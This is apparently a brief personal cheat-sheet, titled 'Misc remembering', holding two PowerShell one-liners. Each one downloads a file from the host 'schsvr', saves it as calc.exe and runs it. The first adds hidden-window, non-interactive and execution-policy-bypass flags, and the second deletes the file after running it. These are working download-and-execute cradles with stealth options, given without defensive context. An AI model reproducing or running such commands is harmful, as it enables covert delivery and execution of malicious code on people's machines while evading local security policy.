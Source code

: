 Misc remembering

powershell -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).DownloadFile('http://schsvr/calc.txt', 'd:\calc.exe'); Start-Process 'd:\calc.exe'"

powershell "IEX(New-Object Net.WebClient).DownloadFile('http://schsvr/calc.exe', 'd:\calc.exe'); Start-Process 'd:\calc.exe' del 'd:\calc.exe'"
